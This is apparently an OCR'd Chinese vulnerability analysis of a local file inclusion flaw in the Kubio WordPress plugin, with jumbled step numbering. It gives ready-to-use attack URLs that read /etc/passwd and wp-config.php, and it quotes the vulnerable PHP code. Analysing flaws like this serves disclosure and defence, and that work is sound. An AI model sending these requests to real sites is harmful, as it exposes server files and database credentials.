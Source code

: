 1. 在捕获到的请求中（或在浏览器地址栏直接构造 GET 请求），**添加或修改**  
以下两个关键参数：  
  
1. **示例攻击 URL (GET 方式):**```
http://your-wordpress-site.com/wp-admin/post.php?post=<a_post_id>&action=edit&_kubio-site-edit-iframe-preview=1&kubio-site-edit-iframe-classic-template=/etc/passwd

```  
(将 your-wordpress-site.com 替换为目标站点，<a_post_id> 替换为一个存在的文章/页面 ID)  
  
1. **示例攻击 URL (读取 WordPress 配置文件 - 极敏感！):**```
http://your-wordpress-site.com/?_kubio-site-edit-iframe-preview=1&kubio-site-edit-iframe-classic-template=/var/www/html/wordpress/wp-config.php

```  
(注意：wp-config.php 的路径需根据实际安装位置调整)  
  
1. **发送请求 & 观察结果：**  
  
1. 如果目标文件是文本文件（如 /etc/passwd  
, wp-config.php  
），其内容将直接输出到页面响应中。  
  
1. 如果目标文件是 PHP 文件且服务器配置允许包含执行，其中的 PHP 代码将被执行。  
  
1. 在代理工具中转发修改后的请求，或在浏览器地址栏直接访问构造好的 URL。  
  
1. 如果漏洞存在且路径正确：  
  
**4. 漏洞代码分析**  
  
漏洞的核心在于 kubio_hybrid_theme_load_template  
 函数：  
1. **入口点：**  
 该函数通过 WordPress 的 template_include  
 过滤器钩子注册。这意味着在 WordPress 决定加载哪个模板文件来渲染页面时，这个函数会被调用。  
  
1. **触发条件 (kubio_is_hybdrid_theme_iframe_preview)：**```
function kubio_is_hybdrid_theme_iframe_preview() {
    // 检查请求参数 '_kubio-site-edit-iframe-preview' 是否存在且非空
    return isset( $_REQUEST['_kubio-site-edit-iframe-preview'] ) && ! empty( $_REQUEST['_kubio-site-edit-iframe-preview'] );
}

```  
  
  
1. 当 URL 或 POST 数据中包含 _kubio-site-edit-iframe-preview  
 参数且其值不为空时，此函数返回 true  
。  
  
1. **漏洞函数 (kubio_hybrid_theme_load_template)：**```
function kubio_hybrid_theme_load_template( $template ) {
    // 检查触发条件
    if ( kubio_is_hybdrid_theme_iframe_preview() ) {
        // 获取用户传入的 'kubio-site-edit-iframe-classic-template' 参数值
        $requested_template = isset( $_REQUEST['kubio-site-edit-iframe-classic-template'] )
            ? $_REQUEST['kubio-site-edit-iframe-classic-template']
            : false;

        // 关键漏洞点：直接使用用户输入作为文件路径，没有进行任何安全过滤或验证！
        if ( $requested_template && file_exists( $requested_template ) ) {
            return $requested_template; // 直接返回用户传入的路径
        }
    }
    return $template; // 未触发或路径无效，返回原始模板
}

```  
  